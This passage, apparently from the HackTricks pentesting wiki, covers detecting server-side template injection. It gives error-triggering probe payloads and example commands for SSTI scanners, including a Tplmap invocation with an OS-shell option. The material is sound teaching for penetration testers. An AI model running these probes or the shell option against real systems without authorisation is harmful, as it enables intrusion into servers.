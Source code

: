 Identifying the template engine involves analyzing error messages or manually testing various language-specific payloads. Common payloads causing errors include `${7/0}`, `{{7/0}}`, and `<%= 7/0 %>`. Observing the server's response to mathematical operations helps pinpoint the specific template engine.

## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tools)

Tools

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tinja)

[TInjA](https://github.com/Hackmanit/TInjA)

an efficient SSTI + CSTI scanner which utilizes novel polyglots



```
tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
tinja url -u "http://example.com/" -d "username=Kirlia" -c "PHPSESSID=ABC123..."
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#sstimap)

[SSTImap](https://github.com/vladko312/sstimap)



```
python3 sstimap.py -i -l 5
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
python3 sstimap.py -u "https://example.com/page?name=John" -s
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tplmap)

[Tplmap](https://github.com/epinna/tplmap)



```
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#template-injection-table)

[Template Injection Table](https://github.com/Hackmanit/template-injection-table)

an interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most important template engines.
